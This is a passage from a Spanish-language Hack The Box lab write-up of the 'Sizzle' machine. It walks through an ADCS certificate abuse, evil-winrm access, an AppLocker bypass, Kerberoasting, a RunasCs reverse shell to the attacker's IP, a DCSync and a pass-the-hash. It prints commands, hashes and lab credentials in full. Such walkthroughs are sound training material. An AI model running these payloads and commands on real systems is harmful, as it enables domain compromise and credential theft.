

Por alguna razón no conseguimos el TGS con `GetUserSPNs`.
```console
$ impacket-GetUserSPNs -request -dc-ip 10.129.208.237 htb.local/amanda -output hashes.kerberoast
```

## Generating `amanda` Certificate  to connect via `evil-winrm` -> Foothold
Así que vamos a intentar generar un certificado a través del IIS para poder acceder mediante `evil-winrm` y intentar subir `Rubeus` para hacer el Kerberoast en local y conseguir este hash del TGS e intentar crackearlo, si lo conseguimos crackear ya solo faltaría hacer el DCSync.

Accedemos al servicio de ADCS web en la típica ruta `/certsrv`


Iniciamos sesión como `amanda`

Vamos a solicitar un certificado.


Avanzado..


Ahora necesitamos generar una clave privada y un certificado que será firmado por la CA.

==A las preguntas que nos hace `openssl` para generar estos archivos las podemos dejar vacías.==
```console
openssl req -new -newkey rsa:2048 -nodes -keyout private.key -out request.csr
```

Y aquí las tenemos.
```console
$ ls
private.key  request.csr
```

Podemos coger el certificado y copiarlo.
```console
$ cat request.csr                                                17:14:50 [1/9204]
-----BEGIN CERTIFICATE REQUEST-----                                                       
MIICijCCAXICAQAwRTELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUx
ITAfBgNVBAoMGEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDCCASIwDQYJKoZIhvcN
AQEBBQADggEPADCCAQoCggEBAOWy5mXPAsClFZ1rkLoNbZXxUoM5dbac1RTiDvhO
ZPd6NKQmp+HIs98VPgyf/osRL43nR6t3TL1pG87a2BVby1Ic6hdHsYEM9n/xnFHI
swPIwBOd7wvGNIL8WrbYPxtSKJZ9KEKv/1M2DM4rLoSiATnjfUMhmq53JH5W4V0a
OaxJwdQRPSuF79EUX1h0rJ9FkNUASAHgC4/luMpah7rcbIuFp3S/nB1slDJy9g7p
BVtEtznMWyHenVtIiUae60pfjoKOMxuwQlNzUKrCOlYA8Uw+iIUqC+va350Vs41Z
dfcyH1HXNSWgPW4EoPRVXLDo1ua3t36+/tp+BjBvs13W15MCAwEAAaAAMA0GCSqG
SIb3DQEBCwUAA4IBAQBTISY/mytwCWm0ZuVmKmf8YJuOBda97YMLLpX1BYvAlzuP
/OdQmQDAAgkN5gQ1ZDdDi4xw12/w3h6xyAzKhq2Ha2t4pBCLvFpjMka3DqGQWAUB
G4ByXh93bqnIKFgbSEXEz+nvI8Kqpy44QeCFniLGcGc/J2ylXH0BeUSLMAM2FwDd
ldik6J4TAboMMWomFi5p7ml8lgexi49bk7URKYmzr9+yrf8Aso5R/Oby4qKTT+rN
vRe8DYzn0qsN5iy7mRZRi3kwKW8ZUZyQzr9UJ8DLeHjMC1uJXD0f8KSuagUeaT6H
gIysURvr0F91qBRIuBFxkxcX/SqzD/8JCy3HAgqC
-----END CERTIFICATE REQUEST-----
```

```console
$ cat request.csr | xclip -sel clip
```

Lo pegamos y le damos a `Submit`


Y ya se nos genera el certificado firmado por la CA. Le damos a `Download certificate` para descargarlo.




Y aquí tenemos nuestro certificado.
```console
$ file certnew.cer 
certnew.cer: Certificate, Version=3
```

Y ahora podemos utilizar este certificado firmado y nuestra clave privada para poder conseguir una consola utilizando `evil-winrm`.

```console
$ evil-winrm -i 10.129.208.237 -u amanda -p Ashare1972 -c certnew.cer -k private.key --ssl
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\amanda\Documents> whoami
htb\amanda
```

Vemos que no está la flag de usuario.
```console
*Evil-WinRM* PS C:\Users\amanda\Desktop> dir
*Evil-WinRM* PS C:\Users\amanda\Desktop> 
```

Debe de tenerla el usuario `mrlky`.

Como ya tenemos el vector de ataque claro, vamos a pasarnos `Rubeus` a la máquina víctima.

Nos copiamos el `Rubeus`
```console
$ cp /opt/SharpCollection/NetFramework_4.7_Any/Rubeus.exe .
```

Por alguna razón me salta un error al intentar utilizar la función `upload` que tiene definida `evil-winrm`



Así que lo vamos a servir a través del puerto 8081.
```console
 python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Nos lo descargamos en la máquina víctima.
```console
*Evil-WinRM* PS C:\ProgramData> iwr http://10.10.14.66:8081/Rubeus.exe -o Rubeus.exe 
```

## Bypassing AppLocker
Vemos que se nos está bloqueando el uso de `Rubeus`.
```console
*Evil-WinRM* PS C:\ProgramData> .\Rubeus.exe
Program 'Rubeus.exe' failed to run: This program is blocked by group policy. For more information, contact your system administratorAt line:1 char:1
+ .\Rubeus.exe
+ ~~~~~~~~~~~~.
At line:1 char:1
+ .\Rubeus.exe
+ ~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

Vemos que `AppLocker` por defecto tiene una regla por defecto para dejar a los ejecutables "en paz" que estén en la ruta `C:\Windows\Temp`

Lo leí en [este post de Reddit](https://www.reddit.com/r/sysadmin/comments/dvu43i/psa_applocker_default_rules_can_be_easily_bypassed/)
> One common whitelist Default Rule is to allow executables to run from C:\Windows. However, some folders in C:\Windows have User read/write access! This could allow someone to run an executable and essentially bypass the Default Rule.
> 
> In my testing, I confirmed some of our servers allowed read/write access to C:\Windows\Tracing, C:\Windows\Tasks, and C:\Windows\Temp and more. Time to update some rules!

Y así de fácil nos saltamos esta protección.
```console
*Evil-WinRM* PS C:\ProgramData> copy Rubeus.exe C:\Windows\Temp\Rubeus.exe                
*Evil-WinRM* PS C:\ProgramData> C:\Windows\Temp\Rubeus.exe                                
                                                                                          
   ______        _                                                                        
  (_____ \      | |                                                                       
   _____) )_   _| |__  _____ _   _  ___                                                   
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


 Ticket requests and renewals:
```

## Kerberoasting `mrlky`

Ahora podemos solicitar el TGS y obtener el hash para intentar crackearlo.
```console
C:\Windows\Temp\Rubeus.exe kerberoast /outfile:C:\ProgramData\kerberoast.txt /creduser:htb.local\amanda /credpassword:Ashare1972
```

```console
*Evil-WinRM* PS C:\ProgramData> type kerberoast.txt                                                                                     
$krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle@HTB.LOCAL*$27F69A08E2CED7E7A8F32DE6A91DF254$58C8528E6B6DEF76F6BA1F8EFC58768AA194285D21FFCD590E33DD69B679468F88DF7910A
120FF20CEB9EFD6E9EA3A71D58AE972352F12F00D98A90D46AB1AC87DC32486F0C56921F26ADA30A782C54EFF3CC9AEB776EC640D7AEB70D73C6B5A1CD74462247B027B0BF42666CDA1CEE518A52F0
0400F49F71FEA35E19D00270D38549F422DF702912C17A1FA270357C61A2BB2982A74B5933B24DEBA1FF24AE5BFBA514AE47B50F585D71802F4A42F4E414CFB908417E4A76BBD37BCD06C12108E790
37DC2880362E070CE0A7076E00B908FB7E230A810C6EF6877EBE06DA385B879612A058F623929C7EBA5A36D4E2BCF36FD37CCC279C71C80F17856C55792F26A08E871D0FFE4D9CDAF0C05CCEA41CC9
07ACA0A9579BBE6AA5ED3B4210DC640602E515DBACD629A610E9FCA92AF9AD3473F056B644E404ACF2311B5D23785EE257C9287C6457F3787241810E4B9C61E15C2225D786B397FDDA082BF9068C7C
1D306220AB15F0A070F6DFA6315F2126C44020F5E5A09516C15D03CDF04C48DEFEB7BCE034F08A286445AFB4011825002BB4E5F4633E97380636CCC3D355C4A9148CE5619AD6DA0A2D4FDE16EA542E
BE26E3EE0BD5305FEBF108B7C3971BEB15E020418A87D737DEA5ED138B897D1DFE24414DA7C11230268DB6EEF5BC5E09500B3721C6C4417E69DA2779B8C182E7BEE189840BB31BB3C3A67BA4BE4F61
C7A09F0E68421B1631369942CA773F8A4B674A97442A2FF3161526E4448FF2FD119D9FED731D13FBFCE0BFED141C718E579CC40E76BF9B15208B4AD9D5B56A7297A874728B140FFF1E3B1A471772AF
C58E8D40AE9559E4D72FCF8AF7C2F50AB5BFFE94C82BC16A78E248C61A428CD35E0D2151EAE094675E978704977830B1AD9BBEEF9959F8298C3F514AC260CA3B16F7726F22A29C05FED9061AD47157
D997268DF15D24ACF63D80509D84F82387F25AFBEED96B0FA829497E2253A73D34BA3A01C1C1B51F8108C3B3F6C0271F0DC94F705D87DDDF1B3D381A8FEBCF16D5D05B32CDC06435FA9500FCDC9661
333AC1286328B383E702494BE9AC3B151A1559CA6EAB96F4C5758F63AEF4AD47C1FC4C278327743B6D410C1BC702BC02C2B71F556C1CE677A0423FA4EF2AA1AA87F1C2139AC33227214A66D15FE975
03235A5F4323817E9F4D713234615135D93213C7FFC8BF8EBFFF77955F2206A7F0ADF8AA010EA2A4AD92424D057F13638A830EC35C9789C7EC504D74E0E3DFBEA4288358BDCDBCE7531954339E038C
DE4293D7033E8E33ADDD3A8A471762A09E823EB92BB0F5F225DE47DE09252110FA2D31A0A3067A1416D1CAFB15CCCEFAB3A8821872F8CD1A98DB365DE
```

Como no podemos utilizar la función `download`de `evil-winrm` podemos crear un pequeño servidor SMB para copiarnos este hash integro.

En nuestra máquina de atacante.
```console
$ sudo impacket-smbserver -smb2support smbFolder . 
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
08/30/2024 05:33:17 PM: INFO: Config file parsed
```

En la máquina víctima.
```console
*Evil-WinRM* PS C:\ProgramData> copy kerberoast.txt \\10.10.14.66\smbFolder\hash.mrlky
```

Podemos comprobar los hashes MD5 para ver si coinciden.
```console
*Evil-WinRM* PS C:\ProgramData> Get-FileHash kerberoast.txt -Algorith MD5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             90B02519937FC40379F50B3ACC2BC382                                       C:\ProgramData\kerberoast.txt
```

```console
$ md5sum hash.mrlky 
90b02519937fc40379f50b3acc2bc382  hash.mr
```

Y vemos que coinciden. Ahora podemos intentar crackearlo.

Y tenemos suerte al crackearlo. Parece la credencial para el usuario `mrlky` es `Football#7`
```console
$ john -w=/usr/share/wordlists/rockyou.txt hash.mrlky 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Football#7       (?)     
1g 0:00:00:06 DONE (2024-08-30 17:35) 0.1560g/s 1742Kp/s 1742Kc/s 1742KC/s Forever3!..Flubb3r
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Podemos comprobarla con `netexec`.

```console
$ nxc smb 10.129.208.237 -u mrlky -p 'Football#7'
SMB         10.129.208.237  445    SIZZLE           [*] Windows 10 / Server 2016 Build 14393 x64 (name:SIZZLE) (domain:HTB.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.208.237  445    SIZZLE           [+] HTB.LOCAL\mrlky:Football#7
```

## Shell as mrlky
Podemos conseguir una shell como este usuario con `RunasCs.exe` aunque no haría falta ya que podemos hacer el DCSync directamente sin necesidad de conseguir una consola como este usuario.

Pero vamos a conseguir la consola como este usuario ya que supongo que la flag de usuario estará en su directorio de trabajo.

Nos pasamos el `RunasCs.exe` a la máquina víctima.
```console
$ cp /opt/RunasCs.exe .
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/sizzle/content]
└──╼ [★]$ sudo impacket-smbserver -smb2support smbFolder .
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
08/30/2024 05:38:12 PM: INFO: Config file parsed
```

```console
*Evil-WinRM* PS C:\ProgramData> copy \\10.10.14.66\smbFolder\RunasCs.exe .
```

Nos copiamos el binario a la ruta `C:\Windows\Temp` para saltarnos el AppLocker.

```console
*Evil-WinRM* PS C:\ProgramData> copy RunasCs.exe C:\Windows\Temp\.
```

Nos ponemos en escucha con `netcat` por el puerto 443.

```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Y ahora con `RunasCs.exe` nos mandamos una `powershell` a ese puerto.

```console
*Evil-WinRM* PS C:\ProgramData> C:\Windows\Temp\RunasCs.exe mrlky Football#7 powershell.exe -r 10.10.14.66:443
[*] Warning: The logon for user 'mrlky' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-73f52b$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 3248 created in background.
```

Y así migramos al usuario `mrlky`
```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.66] from (UNKNOWN) [10.129.208.237] 56801
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
htb\mrlky
```

Y podemos ver la flag de usuario.
```console
PS C:\Users\mrlky\Desktop> type user.txt
type user.txt
c133d9f6cf5128c3...
```

# Privilege Escalation
## DCSync
Ahora que ya hemos conseguido la flag del usuario "como dios manda" solo falta hacer el DCSync para escalar privilegios.

Para ellos simplemente desde nuestra máquina de atacante podemos utilizar `secretsdump.py` para hacer el DCSync y conseguir el hash NT del usuario `Administrator`.

```console
$ secretsdump.py 'htb.local'/'mrlky':'Football#7'@'sizzle.htb.local'
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3:::
mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
sizzler:1604:aad3b435b51404eeaad3b435b51404ee:d79f820afad0cbc828d79e16a6f890de:::
SIZZLE$:1001:aad3b435b51404eeaad3b435b51404ee:5efc17c923d5d12471103d1b8cea7fb6:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e562d64208c7df80b496af280603773ea7d7eeb93ef715392a8258214933275d
Administrator:aes128-cts-hmac-sha1-96:45b1a7ed336bafe1f1e0c1ab666336b3
Administrator:des-cbc-md5:ad7afb706715e964
krbtgt:aes256-cts-hmac-sha1-96:0fcb9a54f68453be5dd01fe555cace13e99def7699b85deda866a71a74e9391e
krbtgt:aes128-cts-hmac-sha1-96:668b69e6bb7f76fa1bcd3a638e93e699
krbtgt:des-cbc-md5:866db35eb9ec5173
amanda:aes256-cts-hmac-sha1-96:60ef71f6446370bab3a52634c3708ed8a0af424fdcb045f3f5fbde5ff05221eb
amanda:aes128-cts-hmac-sha1-96:48d91184cecdc906ca7a07ccbe42e061
amanda:des-cbc-md5:70ba677a4c1a2adf
mrlky:aes256-cts-hmac-sha1-96:b42493c2e8ef350d257e68cc93a155643330c6b5e46a931315c2e23984b11155
mrlky:aes128-cts-hmac-sha1-96:3daab3d6ea94d236b44083309f4f3db0
mrlky:des-cbc-md5:02f1a4da0432f7f7
sizzler:aes256-cts-hmac-sha1-96:85b437e31c055786104b514f98fdf2a520569174cbfc7ba2c895b0f05a7ec81d
sizzler:aes128-cts-hmac-sha1-96:e31015d07e48c21bbd72955641423955
sizzler:des-cbc-md5:5d51d30e68d092d9
SIZZLE$:aes256-cts-hmac-sha1-96:56fe88e6f5b78119b31cc1d5dfb05e51dfaf4b58f2c29fc7cec907dea8928401
SIZZLE$:aes128-cts-hmac-sha1-96:d0cbdcac816dd60049e60421152e1ab7
SIZZLE$:des-cbc-md5:f273ba5829fb2c51
[*] Cleaning up... 
```

Vemos que el hash NT para `Administrator` es `f6b7160bfc91823792e0ac3a162c9267`

Y ya podemos hacer Pass-The-Hash con `psexec.py` para conseguir una consola con máximos privilegios.

```console
$ psexec.py -hashes :f6b7160bfc91823792e0ac3a162c9267 Administrator@htb.local
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Requesting shares on htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file dOoqWXDz.exe
[*] Opening SVCManager on htb.local.....
[*] Creating service KKAU on htb.local.....
[*] Starting service KKAU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

Podemos ver la flag de `root`

```console
C:\Users\administrator\Desktop> type root.txt
2d8ce7abd90030df0...
```

¡Y ya estaría!

Happy Hacking! 🚀